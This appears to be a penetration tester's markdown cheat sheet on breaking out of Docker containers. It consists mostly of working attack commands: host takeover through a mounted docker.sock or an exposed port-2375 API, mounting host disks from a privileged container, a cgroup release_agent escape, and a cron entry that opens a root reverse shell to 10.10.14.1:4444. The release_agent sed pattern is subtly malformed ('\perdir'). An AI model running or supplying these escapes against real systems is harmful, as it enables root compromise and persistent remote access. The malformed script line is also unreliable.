

#containers #docker #privesc #escape

# Docker Enumeration & Container Escape

Related: [kubernetes](kubernetes.md) · [privesc](../Linux/privesc.md) · [aws](../Cloud/aws.md)

## Contents
- [Am I in a container?](#am-i-in-a-container)
- [Enumeration (from the host, with Docker access)](#enumeration-from-the-host-with-docker-access)
- [Escape Paths at a Glance](#escape-paths-at-a-glance)
- [Escape: Exposed Docker Socket](#escape-exposed-docker-socket)
- [Escape: Privileged Container](#escape-privileged-container)
- [Escape: Dangerous Capabilities](#escape-dangerous-capabilities)
- [Escape: Exposed Docker API (Remote, No Auth)](#escape-exposed-docker-api-remote-no-auth)
- [Breaking Out via a Writable Host Mount](#breaking-out-via-a-writable-host-mount)

## Am I in a container?
```bash
cat /proc/1/cgroup
ls -la /.dockerenv
cat /proc/self/mountinfo | grep docker
```
Any hit confirms a container context; check `/proc/1/cgroup` for `docker`/`kubepods` paths.

## Enumeration (from the host, with Docker access)
```bash
docker ps -a
docker images
docker inspect <container>
```
List running/stopped containers, images, and full config (env vars, mounts, capabilities) of a target container.

```bash
id
cat /proc/1/status | grep CapEff
```
Inside a container: check if you're root, and which capabilities are retained (`CapEff` as a hex mask — decode with `capsh --decode=<mask>`).

## Escape Paths at a Glance

| Escape Vector | Precondition | Outcome |
|---|---|---|
| [Exposed Docker Socket](#escape-exposed-docker-socket) | `docker.sock` mounted into the container | Full host root — unauthenticated Docker daemon control |
| [Privileged Container](#escape-privileged-container) | `--privileged` flag, or `CAP_SYS_ADMIN` + no AppArmor/SELinux confinement | Root shell via `chroot` into the host filesystem |
| [Dangerous Capabilities](#escape-dangerous-capabilities) | `CAP_SYS_ADMIN`, `CAP_SYS_PTRACE`, `CAP_SYS_MODULE`, or `CAP_DAC_READ_SEARCH` retained | Known container escape (e.g. cgroup `release_agent`) |
| [Exposed Docker API](#escape-exposed-docker-api-remote-no-auth) | TCP 2375 reachable, no TLS/auth | Full remote root on the host |
| [Writable Host Mount](#breaking-out-via-a-writable-host-mount) | Bind mount into a host path the host executes from (e.g. `/etc/cron.d`) | Arbitrary code execution as root via a host-executed file |



## Escape: Exposed Docker Socket
```bash
ls -la /var/run/docker.sock
docker -H unix:///var/run/docker.sock ps
```
> [!WARNING]
> If `docker.sock` is mounted into the container, you have unauthenticated control of the host's Docker daemon — equivalent to root on the host.

```bash
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it alpine chroot /mnt sh
```
Spawn a new container that bind-mounts the host's entire filesystem, then `chroot` into it — full host root.

## Escape: Privileged Container
```bash
fdisk -l
```
A `--privileged` container can see the host's raw block devices.

```bash
mkdir /mnt/host && mount /dev/sda1 /mnt/host
chroot /mnt/host
```
> [!NOTE]
> Mounting the host's root filesystem directly requires `--privileged` or `CAP_SYS_ADMIN` + no AppArmor/SELinux confinement.

## Escape: Dangerous Capabilities
```bash
capsh --print
```
List current process capabilities; look for:
- `cap_sys_admin`
- `cap_sys_ptrace`
- `cap_sys_module`
- `cap_dac_read_search`

Each enables a known container escape (see the `cap_sys_admin` cgroup example below).

```bash
mount -t cgroup -o rdma cgroup /mnt/cgroup 2>/dev/null; mkdir /mnt/cgroup/x
echo 1 > /mnt/cgroup/x/notify_on_release
host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)
echo "$host_path/cmd" > /mnt/cgroup/release_agent
printf '#!/bin/sh\nps aux > /output\n' > /cmd
chmod +x /cmd
sh -c "echo \$\$ > /mnt/cgroup/x/cgroup.procs"
```
> [!WARNING]
> `CAP_SYS_ADMIN` cgroups `release_agent` escape — runs an arbitrary host-visible script when the cgroup empties.[^1]

[^1]: The `upperdir` path parsing depends on the host's overlay mount layout, so confirm it against the actual `/etc/mtab` entry on the box rather than assuming the sed pattern matches.

## Escape: Exposed Docker API (Remote, No Auth)
```bash
curl http://<target>:2375/version
docker -H tcp://<target>:2375 ps
```
> [!WARNING]
> TCP port 2375 is the unencrypted Docker API — if exposed with no TLS/auth, it's full remote root on the host (same socket abuse as above, run over the network).

## Breaking Out via a Writable Host Mount
```bash
echo "* * * * * root /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.1/4444 0>&1'" >> /host_mount/etc/cron.d/pwn
```
> [!CAUTION]
> If a container has a writable bind mount into a host path like `/etc/cron.d`, this drops a cronjob the host will execute as root — a destructive, persistent host compromise.
